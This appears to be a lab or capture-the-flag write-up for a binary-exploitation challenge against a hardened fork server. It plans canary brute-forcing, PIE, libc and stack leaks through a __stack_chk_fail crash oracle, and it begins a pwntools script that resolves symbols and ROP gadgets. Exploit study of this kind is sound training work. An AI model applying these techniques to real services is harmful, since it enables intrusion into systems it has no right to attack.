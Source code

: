 ## Challenge 14

Now wer’e given a fork server. Moreover, we no longer have read primitive. So we have PIE, canary, NX, full RELRO, and no leak primitives at all. Great.

However, notice this time we do have `challenge` call. This means challenge’s return address is within the program’s loaded memory space. Hence, we can for example execute `_start` once again, but this time with some adjusted `rbp` value. (challenge 15 will be similar, but without that challenge call. Therefore it worth making the exploit as generic as possible). 

This exploit will have multiple stages:

1. Leak the canary byte-by-byte manner. Each calling process will try to corrupt the next byte of the canary, and check for crash. If it didnt crash - canary byte was found. 

2. Leak PIE base (optional for challenge 14 only)

3. Leak libc value. We can overwrite return addresses, and `challenge`’s in particular. This is `main`, which is part of the program. We can do smart brute force here too - we would overwrite the return address byte after byte, to some indicative function, such as `__stack_chk_fail`. Upon hit, we would get indicative stdout (stack corruption detected error). Otherwise, the process should crash without any special notification. 

4. Leak stack value. We can do this easily having libc, as `environ` is a symbol that always exists and contains a process stack’s address. 

I've used the `__stack_chk_fail` as an oracle, because it exists both on the binary as a wrapepr (adequate for challenge 14) and both on libc (adequate for challenge 15). 

```python
from glob import glob
from dataclasses import dataclass
from subprocess import check_output
from pwn import *
import os, sys
import struct
import time
import shutil
import signal
BINARY = glob('/challenge/baby*')[0]
LIBC = '/lib/x86_64-linux-gnu/libc.so.6'
GDB_SCRIPT= '''
set follow-fork-mode child
b *challenge+383
c
'''
context.arch = 'amd64'
context.encoding = 'latin'
context.log_level = 'INFO'
warnings.simplefilter('ignore')
elf = ELF(BINARY)
libc = ELF(LIBC)
elf_bin_padding = elf.symbols['bin_padding']
elf_stack_chk = elf.symbols['__stack_chk_fail']
elf_puts = elf.symbols['puts']
elf_start = elf.symbols['_start']
elf_puts_got = elf.got['puts']
libc_environ = libc.symbols['environ']
libc_stack_chk = libc.symbols['__stack_chk_fail']
libc_puts = libc.symbols['puts']
libc_chmod = libc.symbols['chmod']
rop = ROP(BINARY)
libc_rop = ROP(LIBC)
pop_rdi_ret = rop.find_gadget(['pop rdi']).address
pop_rsi_ret = rop.find_gadget(['pop rsi']).address
leave_ret = rop.find_gadget(['leave']).address
libc_leave_ret = libc_rop.find_gadget(['leave']).address
```